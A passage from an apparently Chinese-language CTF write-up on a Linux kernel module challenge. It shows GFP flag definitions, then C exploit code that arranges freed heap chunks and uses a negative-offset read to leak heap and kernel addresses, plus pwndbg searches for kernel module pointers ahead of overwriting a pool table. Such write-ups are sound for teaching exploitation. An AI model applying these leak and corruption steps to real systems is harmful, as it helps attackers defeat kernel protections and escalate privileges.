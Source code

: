 ```c
#define __GFP_WRITE	((__force gfp_t)___GFP_WRITE)
#define __GFP_HARDWALL   ((__force gfp_t)___GFP_HARDWALL)
#define __GFP_THISNODE	((__force gfp_t)___GFP_THISNODE)
#define __GFP_ACCOUNT	((__force gfp_t)___GFP_ACCOUNT)

// user interface
#define GFP_ATOMIC	(__GFP_HIGH|__GFP_ATOMIC|__GFP_KSWAPD_RECLAIM)
#define GFP_KERNEL	(__GFP_RECLAIM | __GFP_IO | __GFP_FS)
#define GFP_KERNEL_ACCOUNT (GFP_KERNEL | __GFP_ACCOUNT)
#define GFP_NOWAIT	(__GFP_KSWAPD_RECLAIM)
#define GFP_NOIO	(__GFP_RECLAIM)
#define GFP_NOFS	(__GFP_RECLAIM | __GFP_IO)
#define GFP_USER	(__GFP_RECLAIM | __GFP_IO | __GFP_FS | __GFP_HARDWALL)
#define GFP_DMA		__GFP_DMA
#define GFP_DMA32	__GFP_DMA32
#define GFP_HIGHUSER	(GFP_USER | __GFP_HIGHMEM)
#define GFP_HIGHUSER_MOVABLE	(GFP_HIGHUSER | __GFP_MOVABLE)
#define GFP_TRANSHUGE_LIGHT	((GFP_HIGHUSER_MOVABLE | __GFP_COMP | \
			 __GFP_NOMEMALLOC | __GFP_NOWARN) & ~__GFP_RECLAIM)
#define GFP_TRANSHUGE	(GFP_TRANSHUGE_LIGHT | __GFP_DIRECT_RECLAIM)
```

而後要透過 `read` + negative offset 來 leak kernel，首先 create 5 個 chunk:

```c
    create_entry(0, payload, 0x100);
    create_entry(1, payload, 0x100);
    create_entry(2, payload, 0x100);
    create_entry(3, payload, 0x100);
    create_entry(4, payload, 0x100);
    remove_entry(1);
    remove_entry(3); // ptr->fd = chunk_1
```

heap address 必須透過 chunk 的 fd 來 leak，不過如果相鄰的 chunk 都是 freed，chunk 會受到 consolidate 的影響，因此建立 5 個 chunk + remove chunk 1 跟 chunk3，就可以透過 chunk 4 來 leak chunk 3 指向 chunk 1 的 fd pointer。

而 kernel address 可以透過 chunk 0 讀取 heap 上的 data，因為 kernel 其他的 data 可能會在 heap 上殘留 kernel address，到這邊 kernel 跟 heap 都有了:

```c
    read_data(4, (char *)buf, 0x100, -0x100); // leak heap
    heap = *(ptr);

    read_data(0, (char *)buf, 0x100, -0x100); // leak kernel
    kernel = *(ptr+5);
```

之後要 leak kernel module，並且改 pool table，而先在 pwndbg 看有哪些地方有 kernel module 的 address:

```bash
# 先看已知的 address 處在哪個 mapping region，確保 addr base 相同
pwndbg> xinfo 0xffffffff81849ae0
Extended information for virtual address 0xffffffff81849ae0:

  Containing mapping:
0xffffffff81459000 0xffffffff81c00000 rwxp   7a7000 0      <explored>

# 再從該 region 中找 kernel module 的 address
pwndbg> find 0xffffffff81459000, 0xffffffff81c00000, 0xffffffffc000
0xffffffff81811012
0xffffffff81811022
0xffffffff818403ea
0xffffffff8184713a
0xffffffff81919a92
# 以上 address 即是透過 leaked address 加上 offset 可以得到存放 kernel module address 的 address
```
